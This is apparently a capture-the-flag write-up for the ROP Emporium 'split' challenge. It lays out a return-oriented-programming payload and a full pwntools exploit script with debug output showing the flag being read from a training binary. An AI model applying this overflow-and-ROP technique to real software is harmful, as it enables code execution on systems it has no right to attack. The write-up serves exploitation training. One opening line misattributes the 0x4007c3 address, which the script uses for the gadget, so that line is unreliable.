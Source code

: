 * `/bin/cat flag.txt`: 0x4007c3

## Capture The flag (x86-64)

The form of the `payload` to be constructed is as follows:

- **PADDING** of 40 bytes.
- **pop rdi; ret ADDR**.
- **/bin/cat flag.txt ADDR**.
- **call system ADDR**.

Below is a *Python* script using the *pwntools* library to generate the *payload* and interact with the vulnerable program.

```python
from pwn import context, ELF, process, flat

exe = './split'
elf = context.binary = ELF(exe, checksec=False)

context.log_level = 'debug'

# Crafting payload
srip_offset = 40
call_system_addr = 0x40074b
pop_rdi_ret_addr = 0x4007c3
bin_cat_flag_addr = 0x601060

padding = "A"*srip_offset

payload = flat(
    padding.encode(),
    pop_rdi_ret_addr,
    bin_cat_flag_addr,
    call_system_addr
)

# Get the flag
io = process([exe])
io.sendline(payload)
data = io.recvall().decode()
data = data.split("Thank you!")

print(data[1])
```

```bash
$ python3 exploit.py 
[+] Starting local process './split': pid 58833
[DEBUG] Sent 0x41 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000020  41 41 41 41  41 41 41 41  c3 07 40 00  00 00 00 00  │AAAA│AAAA│··@·│····│
    00000030  60 10 60 00  00 00 00 00  4b 07 40 00  00 00 00 00  │`·`·│····│K·@·│····│
    00000040  0a                                                  │·│
    00000041
[+] Receiving all data: Done (194B)
[DEBUG] Received 0x57 bytes:
    b'split by ROP Emporium\n'
    b'x86_64\n'
    b'\n'
    b'Contriving a reason to ask user for data...\n'
    b'> Thank you!\n'
[DEBUG] Received 0x21 bytes:
    b'ROPE{a_placeholder_32byte_flag!}\n'
[DEBUG] Received 0x4a bytes:
```
